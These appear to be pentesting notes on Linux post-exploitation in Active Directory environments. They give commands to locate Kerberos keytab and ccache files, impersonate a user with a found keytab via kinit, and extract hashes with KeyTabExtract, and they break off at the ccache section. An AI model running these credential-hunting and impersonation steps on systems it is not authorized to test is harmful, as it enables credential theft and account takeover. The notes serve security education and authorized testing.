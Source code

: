 ```yaml
---
description: >-
  The only difference from Post-Exploitation in #Pentesting is that here we
  would use only AD-related  PE vectors which is executed in Linux OS.
---
```


# Linux Post-Exploitation

**Linux** computers can connect to **Active Directory**, though it's a **Microsoft** technology. Also it's not required for **Linux** machine to be connected to **AD** to use **Kerberos** tickets.

***

## Checking Linux and AD relations

### realm

```bash
realm list
```

### PS

<pre class="language-bash"><code class="lang-bash"><strong>ps -ef | grep -i "winbind\|sssd"
</strong></code></pre>

***

## Finding Kerberos Tickets

Finding tickets is very important part of Active Directory exploitation and post-exploitation. For a beginning, tickets in Linux are usually located here:

* **keytab files** - commonly allow scripts to authenticate automatically using Kerberos without human interaction or access to a password stored in a plain text file
* **ccache files** - **c**redential **c**ache is stored in <mark style="color:green;">**/tmp**</mark> directory&#x20;
* <mark style="color:green;">**`KRB5CCNAME`**</mark> - environment variable

### Crontab

```bash
crontab -l
```

### Keytab Files

```bash
find / -name *keytab* -ls 2>/dev/null
```

### Ccache

```bash
env | grep -i krb5
ls -la /tmp
```

***

## Abusing Keytab

### Impersonate user

```bash
klist -k -t #list keytab file info
kinit carni7@AMOGUS.KEK -k -t /opt/kerbusers/carni7.keytab #impersonation carni7 using his keytab
```

### **KeyTabExtract**

[**\[LINK\]**](https://github.com/sosdave/KeyTabExtract) This is tool which is extracting **Kerberos** hashes from **keytab** file.

```python
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

## Abusing ccache

For using **ccache** files you need to have root privileges

### Checking group privileges

```bash
id carni7@amogus.kek
```
